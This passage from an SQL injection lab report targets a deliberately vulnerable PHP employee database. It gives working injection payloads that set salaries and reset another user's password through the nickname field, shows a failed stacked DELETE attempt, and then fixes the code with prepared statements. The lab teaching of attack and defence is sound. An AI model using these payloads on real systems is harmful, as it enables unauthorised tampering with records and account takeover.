Observation: the webpage is the same as the one from the previous task. A table with all employees' information is displayed, and we successfully logged in as admin.

### 4.3.3 Append a New SQL Statement

First create a dummy record in the database:

```sql
INSERT INTO credential (Name, Password) VALUES ('Dummy', '123');
```


The SQL statement after injection is expected to be:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential 
WHERE name= '' or Name='Admin'; 
DELETE FROM credential WHERE Name='Dummy'; #' and Password='$hashed_pwd';
```

- $input_uname = `' or Name='Admin'; DELETE FROM credential WHERE Name='Dummy'; #`
- $input_pwd = `123`


```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'DELETE FROM credential WHERE Name='Dummy'; #' and Password='40bd001563085fc35165' at line 3]\n
```

Observation: the delete statement is not executed; and the error message indicates that the SQL statement is not executed as a whole; rather, it is treated as two separate statements, with the first statement successful and the second one raising an error.

To verify the correctness of the SQL statement, execute the same SQL statement in the MySQL shell:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name= '' or Name='Admin'; DELETE FROM credential WHERE Name='Dummy'; #' and Password='40bd001563085fc35165';
```


Observation: the delete statement is executed successfully, and the record is deleted from the database, leaving the original 6 records.

Explanation: this is a MySQL driver feature, which disallows multiple statements in a single query. When executing the SQL statement in CLI, it is valid to execute multiple statements in a single query; however, for safety reasons, the MySQLi driver for PHP does not allow this. Therefore, the delete statement cannot be executed in the web application.

## 4.4 SQL Injection Attack on UPDATE Statement

### 4.4.1 Modify Your Own Salary

The SQL statement is as follows:

```php
$sql = "UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='$input_phonenumber'
WHERE ID=$id;";
```

In the Edit Profile page, inject into the first field (nickname), so fields after it are not affected:

Payload:

- $input_nickname = `', salary=100000 where Name='Alice'; #`

The statement after injection will be:

```sql
UPDATE credential SET
nickname='',
salary=100000 where Name='Alice'; #',
```


Observation: The salary is updated to 100000.

### 4.4.2 Modify Other People's Salary

Payload:

- $input_nickname = `', salary=1 where Name='Boby'; #`

The statement after injection will be:

```sql
UPDATE credential SET
nickname='',
salary=1 where Name='Boby'; #',
```


Observation: Boby's salary is updated to 1. (viewed from Admin's panel)

### 4.4.3 Modify Other People's Password

Payload:

- $input_nickname = `', Password=sha1('123') where Name='Boby'; #`

The statement after injection will be:

```sql
UPDATE credential SET
nickname='',
Password=sha1('123') where Name='Boby'; #',
```


Observation: Boby's password is updated to 123. We can log in as Boby using the new password, as shown above.

Alternatively, it is possible to directly use the hashed password:

- $input_nickname = `', Password='40bd001563085fc35165329ea1ff5c5ecbdbbeef' where Name='Boby'; #`

which is the SHA1 hash of 123.

## 4.5 Countermeasures - Prepared Statements

### 4.5.1 Fixing SQL Injection Vulnerability in SELECT Statement

The original code at `/var/www/SQLInjection/unsafe_home.php` line 73:

```php
    $sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickna$
    FROM credential
    WHERE name= '$input_uname' and Password='$hashed_pwd'";
    if (!$result = $conn->query($sql)) {
        echo "</div>";
        echo "</nav>";
        echo "<div class='container text-center'>";
        die('There was an error running the query [' . $conn->error . ']\n');
        echo "</div>";
    }
    /* convert the select return result into array type */
    $return_arr = array();
    while($row = $result->fetch_assoc()){
        array_push($return_arr,$row);
    }

    /* convert the array type to json format and read out*/
    $json_str = json_encode($return_arr);
    $json_a = json_decode($json_str,true);
    $id = $json_a[0]['id'];
    $name = $json_a[0]['name'];
    $eid = $json_a[0]['eid'];
    $salary = $json_a[0]['salary'];
    $birth = $json_a[0]['birth'];
    $ssn = $json_a[0]['ssn'];
    $phoneNumber = $json_a[0]['phoneNumber'];
    $address = $json_a[0]['address'];
    $email = $json_a[0]['email'];
    $pwd = $json_a[0]['Password'];
    $nickname = $json_a[0]['nickname'];
```

Replace it with:

```php
    $stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password
    FROM credential
    WHERE name= ? and Password= ?");
    $stmt->bind_param("ss", $input_uname, $hashed_pwd);
    if (!$stmt->execute()) {
        echo "</div>";
        echo "</nav>";
        echo "<div class='container text-center'>";
        die('There was an error running the query [' . $conn->error . ']\n');
        echo "</div>";
    }

    $stmt->bind_result($id, $name, $eid, $salary, $birth, $ssn, $phoneNumber, $address, $email, $nickname, $pwd);
    $stmt->fetch();
    $stmt->close();
```




Observation: Repeating the login attack, the SQL injection attack fails as the queried account is not found.

Explanation: The SQL statement is now a prepared statement, which separates the SQL code from the data. The data is bound to the prepared statement using `bind_param()`, and the database treats it as data only; the quotes `'` does not mark the beginning or end of a string, but rather as part of the string. Therefore, the SQL injection attack is not successful.

### 4.5.2 Fixing SQL Injection Vulnerability in UPDATE Statement

The original code at `/var/www/SQLInjection/unsafe_edit_backend.php` line 44:

```php
    // Don't do this, this is not safe against SQL injection attack
    $sql="";
    if($input_pwd!=''){
        // In case password field is not empty.
        $hashed_pwd = sha1($input_pwd);
        //Update the password stored in the session.
        $_SESSION['pwd']=$hashed_pwd;
        $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
    }else{
        // if passowrd field is empty.
        $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
    }
    $conn->query($sql);
```

Update it to:

```php
    if($input_pwd!=''){
        $hashed_pwd = sha1($input_pwd);
        $_SESSION['pwd']=$hashed_pwd;
        $stmt = $conn->prepare("UPDATE credential SET nickname= ? ,email= ? ,address= ? ,Password= ? ,PhoneNumber= ? where ID= ?");
        $stmt->bind_param("sssssi", $input_nickname, $input_email, $input_address, $hashed_pwd, $input_phonenumber, $id);
    }else{
        $stmt = $conn->prepare("UPDATE credential SET nickname= ? ,email= ? ,address= ? ,PhoneNumber= ? where ID= ?");
        $stmt->bind_param("ssssi", $input_nickname, $input_email, $input_address, $input_phonenumber, $id);
    }
    $stmt->execute();
    $stmt->close();
```

Repeating the salary update attack in 4.4.1. This time Alice changes her own salary to 10000.

Payload:

- $input_nickname = `', salary=10000 where Name='Alice'; #`


Observation: the attack fails, and the salary is not updated. The nickname is updated to `', salary=10000 where Name='Alice'; #`.

Conclusion: using prepared statements, the SQL SELECT and UPDATE statements are safe from SQL injection attacks.

